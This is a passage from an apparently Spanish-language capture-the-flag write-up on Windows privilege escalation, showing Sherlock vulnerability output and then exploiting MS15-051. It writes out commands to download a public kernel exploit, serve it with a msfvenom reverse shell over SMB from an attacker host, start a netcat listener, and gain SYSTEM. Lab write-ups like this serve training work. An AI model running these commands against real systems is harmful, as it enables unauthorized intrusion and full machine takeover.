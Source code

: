 Resultados de `sherlock`

```bash
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```

## ESCALADA POR MS15-051

Vamos a aprovecharnos de la vulnerabilidad `ms15-051`, descargando y descomprimiendo el script de [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip) y copiando la reverse shell generada por `msfvenom` anteriormente.

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
cd MS15-051-KB3045171/
cp ../rev.exe .
```

Compartimos un servidor `smb`

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

Generamos un listener

```bash
rlwrap nc -lvnp 4564
```

Ejecutamos comandos en la máquina víctima.

```bash
\\10.10.14.13\smbFolder\ms15-051x64.exe "\\10.10.14.13\smbFolder\rev.exe"
```

Obtenemos una sesión con permisos de administrador.

```bash
#OUTPUT
whoami
nt authority\system
```
